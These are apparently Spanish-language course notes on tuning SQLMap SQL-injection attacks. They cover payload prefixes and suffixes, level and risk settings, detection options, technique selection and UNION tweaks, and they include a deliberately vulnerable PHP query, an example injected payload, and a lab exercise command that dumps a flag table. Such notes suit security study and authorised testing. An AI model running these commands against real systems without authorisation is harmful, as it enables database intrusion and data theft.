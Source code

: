 
---
# Ajuste de Ataques en SQLMap

SQLMap está diseñado para funcionar de manera óptima con los detalles del objetivo proporcionados. Sin embargo, en algunos casos puede ser necesario ajustar la detección de SQLi para mejorar los resultados.

## Estructura de los Payloads

Cada payload enviado por SQLMap consta de:

- **Vector**: La parte central de la inyección, contiene el código SQL que se ejecutará en el objetivo.  
    _Ejemplo:_ `UNION ALL SELECT 1,2,VERSION()`
- **Boundaries**: Prefijo y sufijo que permiten insertar correctamente el vector en la consulta SQL vulnerable.  
    _Ejemplo:_ `<vector>-- -`

## Uso de Prefijo y Sufijo

En ciertos casos, SQLMap no puede inyectar directamente, por lo que se deben definir prefijos y sufijos específicos con `--prefix` y `--suffix`:

```bash
sqlmap -u "www.example.com/?q=test" --prefix="%'))" --suffix="-- -"
```

Si la consulta vulnerable en el servidor es:

```php
$query = "SELECT id,name,surname FROM users WHERE id LIKE (('" . $_GET["q"] . "')) LIMIT 0,1";
```

El payload:

```sql
SELECT id,name,surname FROM users WHERE id LIKE (('test%')) UNION ALL SELECT 1,2,VERSION()-- -')) LIMIT 0,1
```

Esto ayuda en casos donde se requieren estructuras específicas para que la inyección sea exitosa.

## Nivel y Riesgo

SQLMap permite ajustar los vectores utilizados con las opciones:

- `--level` (1-5, por defecto 1): Amplía el número de vectores y boundaries utilizados. A mayor nivel, más pruebas con menor probabilidad de éxito.
- `--risk` (1-3, por defecto 1): Amplía el conjunto de vectores dependiendo del riesgo de afectar el sistema (pérdida de datos o DoS).

Ejemplo con máxima profundidad:

```bash
sqlmap -u www.example.com/?id=1 --level=5 --risk=3
```

Esto incrementa el número de payloads enviados (de ~72 en `--level=1 --risk=1` hasta ~7,865 en `--level=5 --risk=3`).

⚠️ **Nota:** Aumentar estos valores ralentiza la detección. Solo modificar en casos donde los ataques estándar no sean efectivos.

## Depuración y Comparación de Payloads

Para observar las diferencias en los payloads generados con distintos niveles y riesgos, se puede usar `-v 3`:

```bash
sqlmap -u www.example.com/?id=1 -v 3 --level=5
```

Salida con `--level=5` (más payloads y pruebas adicionales):

```
[INFO] testing 'MySQL < 5.0 boolean-based blind - ORDER BY, GROUP BY clause'
[INFO] testing 'PostgreSQL boolean-based blind - ORDER BY clause (original value)'
[INFO] testing 'Oracle boolean-based blind - WHERE clause (CTXSYS.DRITHSX.SN)'
...
```

Salida con valores por defecto (`--level=1 --risk=1`):

```
[INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[INFO] testing 'MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause'
```
![[Pasted image 20250130125544.png]]

## Ajustes Avanzados

SQLMap permite afinar la detección con varias opciones específicas:

### **Basado en Códigos de Estado HTTP**

Si las respuestas del servidor varían según el código HTTP (`200` para TRUE, `500` para FALSE), se puede especificar con:

```bash
sqlmap -u www.example.com/?id=1 --code=200
```

### **Basado en el Título de la Página**

Si el cambio en la respuesta está en la etiqueta `<title>`, se usa:

```bash
sqlmap -u www.example.com/?id=1 --titles
```

### **Detección Basada en Texto**

Si la diferencia entre respuestas se encuentra en el contenido, se puede fijar con:

```bash
sqlmap -u www.example.com/?id=1 --string="Login successful"
```

### **Filtrar Solo Texto Visible**

Para ignorar etiquetas HTML (`<script>`, `<style>`, etc.) y analizar solo el contenido visible:

```bash
sqlmap -u www.example.com/?id=1 --text-only
```

## Selección de Técnicas SQLi

En ciertos casos, es necesario limitar las pruebas a un tipo específico de inyección con `--technique`:

```bash
sqlmap -u www.example.com/?id=1 --technique=BEU
```

- `B` (Boolean-based blind)
- `E` (Error-based)
- `U` (Union-based)
- `S` (Stacked queries)
- `T` (Time-based blind)

_⚠️ Útil si ciertas técnicas generan problemas (por ejemplo, time-based causando timeouts)._

## Ajustes para Inyección UNION

Si una inyección UNION requiere datos específicos, podemos definir:

- Número de columnas:
    
    ```bash
    sqlmap -u www.example.com/?id=1 --union-cols=5
    ```
    
- Valores de relleno en UNION:
    
    ```bash
    sqlmap -u www.example.com/?id=1 --union-char='X'
    ```
    
- Tabla específica en `FROM` (para bases de datos como Oracle):
    
    ```bash
    sqlmap -u www.example.com/?id=1 --union-from=users
    ```
    

---

## Ejercicios

* Ejercicio 1:
	`sqlmap -u "http://83.136.249.42:36158/case5.php?id=1" -D testdb -T flag5 --dump --level=1 --risk=2 --no-cast`
